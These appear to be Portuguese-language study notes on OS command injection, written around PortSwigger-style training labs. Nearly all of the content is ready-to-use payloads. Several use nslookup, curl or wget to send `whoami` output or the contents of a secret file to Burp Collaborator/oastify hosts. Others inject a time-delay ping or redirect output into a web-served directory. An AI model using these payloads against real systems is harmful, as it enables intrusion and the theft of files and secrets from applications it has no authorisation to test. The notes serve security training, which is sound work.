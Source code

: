 # OS Command Injection

Probabilidade: $${\color{red}Alta}$$.

Normalmente o Command Injection aparece nos parâmetros que envolvem e-mail, como na feature the submeter feedback.

Aprenda alguns comandos além do que é ensinado nos laboratórios para exfiltrar dado, visto que nem sempre o comando que você testa primeiro existe ou funciona no alvo.

Algumas variações:
```
nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN

curl+burp.oastify.com?c=`whoami`

nslookup+-q=cname+$(whoami).burp.oastify.com

$(curl $(cat /home/carlos/secret).OASTIFY.COM)

/usr/bin/wget --post-file /home/carlos/secret https://collaborator/
```

<br>

## Laboratórios

**Blind OS Command Injection with Time Delays**
```
email=x||ping+-c+10+127.0.0.1||
```

<br>
<br>

**Blind OS Command Injection with Output Redirection**

Tem um diretório passível de escrita em `/var/qwww/images/`.
```
||+whoami+>+/var/www/images/whoami.txt||
```

Acesse o arquivo em: `/image?filename=whoami.txt`.

<br>
<br>

**Blind OS Command Injection with Out-of-Band Interaction**
```
email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||
```

<br>
<br>

**Blind OS Command Injection with Out-of-Band Data Exfiltration**
```
email=||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||
```

<br>
<br>

**Admin Panel ImgSize Command Injection**
```
/admin-panel/admin_image?image=/blog/posts/50.jpg&ImageSize="200||nslookup+$(cat+/home/carlos/secret).<collaborator>%26"  
```

Outra opção:
```
ImgSize="`/usr/bin/wget%20--post-file%20/home/carlos/secret%20https://collaborator/`"
```
